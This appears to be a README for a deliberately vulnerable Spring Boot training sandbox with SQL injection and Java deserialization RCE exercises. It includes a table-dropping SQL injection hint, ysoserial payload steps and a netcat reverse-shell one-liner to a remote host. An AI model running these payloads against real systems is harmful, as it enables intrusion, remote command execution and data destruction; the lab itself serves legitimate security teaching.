

# Java vulnerabilities

This is a sandbox containing multiple flaws, including SQL injection and RCE (Remote Code Execution) vulnerabilities.

## How to run

This is a spring boot app using Maven, to run it :

```bash
mvn spring-boot:run
```

It will start a web sever listening to http://localhost:8080


## sql-injection

To use the app normally, register a new user and use the home page to query the database in an authenticated manner.

**But**, the login form is vulnerable to SQL injection, try to break the app !

ℹ️ Hint: `toto'; DROP TABLE "user"; --` 💥

But you can also become an official user without following the registration process 🕶️.

## RCE (Remote Code Execution)

The application uses the Java Serialization, which is known to be the source of the most violent vulnerabilities when applied to foreign inputs.

Your job, if you accept it, is to:

* Find where to insert a malicious payload
* Find the proper gadget chain to use regarding the project dependencies (`mvn dependency:tree`)
* Generate a malicious payload with [ysoserial](https://github.com/frohoff/ysoserial), for this, you will need an older version of Java, such as Java 11
* Send the payload to the app and verify that you can execute an arbitrary command (or many) on the host system
* Try smarter payloads
    * from starting some existing non-intrusive process such as `calc.exe` (but who runs production on Windows ?)
    * to establishing a TCP connection to a remote server, which will allow a hacker to execute many arbitrary commands  
      ℹ️ Hint: `f=$(mktemp -u --suffix=.fifo); mkfifo $f; while IFS= read -r line; do eval "$line" 2>&1; echo -ne \\0; done < $f | nc $host $port > $f`


